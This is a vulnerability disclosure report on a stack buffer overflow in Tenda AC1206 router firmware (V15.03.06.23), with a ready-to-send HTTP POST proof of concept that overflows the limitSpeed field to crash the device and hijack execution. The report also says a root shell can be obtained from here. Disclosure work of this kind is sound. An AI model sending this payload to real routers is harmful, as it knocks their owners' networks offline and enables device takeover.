




#  Tenda AC1206 (V15.03.06.23) has a stack overflow vulnerability

## Overview

- Manufacturer's website information：https://www.tenda.com.cn
- Firmware download address ： https://www.tenda.com.cn/download/detail-2766.html

### Product Information

Tenda AC1206 V15.03.06.23, the latest version of simulation overview：


## Vulnerability details

The Tenda AC1206 (V15.03.06.23) was found to have a stack overflow vulnerability in the formSetClientState function. An attacker can obtain a stable root shell through a carefully constructed payload.



In the `formSetClientState` function,the `v3`  (the value of `limitEn`) ,the `dev_id` (the value of `deviceId`),the `ul_speed`  (the value of `limitSpeedUp`) and the `dl_speed`  (the value of `limitSpeed`) are formatted with the `sprintf` function, spliced with `%d;%s;%s;%s`  strings, and saved to `buff`. It is not secure, as long as the size of the data we enter is larger than the size of `buff`, it will cause a stack overflow.

## Recurring vulnerabilities and POC

In order to reproduce the vulnerability, the following steps can be followed:

1. Boot the firmware by qemu-system or other ways (real machine)
2. Attack with the following POC attacks

```
POST /goform/SetClientState HTTP/1.1
Host: 192.168.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:103.0) Gecko/20100101 Firefox/103.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded;
Content-Length: 336
Origin: http://192.168.0.1
DNT: 1
Connection: close
Referer: http://192.168.0.1/index.html
Cookie: ecos_pw=eee:language=cn

limitEn=1&deviceId=a&limitSpeedUp=a&limitSpeed=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
```



 By sending this poc, we can achieve the effect of a denial-of-service(DOS) attack .



As shown in the figure above, we can hijack PC registers.



Finally, you also can write exp to get a stable root shell.

